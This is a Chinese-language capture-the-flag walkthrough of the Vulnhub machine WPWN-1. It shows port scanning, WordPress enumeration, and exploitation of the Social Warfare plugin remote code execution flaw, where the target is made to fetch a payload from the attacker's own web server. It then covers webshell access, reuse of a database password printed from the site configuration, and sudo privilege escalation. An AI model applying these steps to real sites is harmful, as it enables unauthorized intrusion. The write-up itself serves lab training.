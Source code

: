 ```yaml
---
layer: article
title: Vulnhub	537 SO WPWN-1
tags: pentest vulnhub Walkthrough
---
```

考点：dirsearch,wordpress,sudo

靶机链接：<https://www.vulnhub.com/entry/wpwn-1,537/>

## 环境配置

| 名称       | IP        |
| ---------- | --------- |
| Kali Linux | 10.0.2.24 |
| WPWN-1     | 10.0.2.39 |

## 初步打点

### 端口扫描

```bash
$ export rip=10.0.2.39
$ sudo nmap -v -A -p- $rip
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 59:b7:db:e0:ba:63:76:af:d0:20:03:11:e1:3c:0e:34 (RSA)
|   256 2e:20:56:75:84:ca:35:ce:e3:6a:21:32:1f:e7:f5:9a (ECDSA)
|_  256 0d:02:83:8b:1a:1c:ec:0f:ae:74:cc:7b:da:12:89:9e (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.38 (Debian)
```

### WEB测试

#### dirsearch

发现wordpress目录，看来是搞wordpress了

![1](https://static.iihack.com/vulnhub/537/1.jpg)

#### wpscan

```bash
$ wpscan --url http://10.0.2.39/wordpress --api-token ******************************************* -e
```

![2](https://static.iihack.com/vulnhub/537/2.jpg)

参考[WordPress Plugin Social Warfare < 3.5.3 - Remote Code Execution](https://www.exploit-db.com/exploits/46794)

## 获得权限

### getwebshell

kali上开web服务

```bash
$ python -m 'http.server' 80
```

![3](https://static.iihack.com/vulnhub/515/3.jpg)
```bash
$ python2  46794.py -t http://10.0.2.39/wordpress/ -p http://10.0.2.24/CVE/CVE-2019-9978 
```

执行后访问shell地址返回200，使用antsword连接成功

![3](https://static.iihack.com/vulnhub/537/3.jpg)

### 用户权限

查看wordpress数据库配置

![4](https://static.iihack.com/vulnhub/537/4.jpg)

获得密码`R3&]vzhHmMn9,:-5`

查看/home文件夹发现用户 `takis`

![5](https://static.iihack.com/vulnhub/537/5.jpg)

登录成功

## 提权

![6](https://static.iihack.com/vulnhub/537/6.jpg)

获得root权限

### 彩蛋

这里root.txt找flag的过程中发现还有个彩蛋

![7](https://static.iihack.com/vulnhub/537/7.jpg)



关联[vulnhub515](https://www.iihack.com/2020/07/17/vulnhub-515.html)
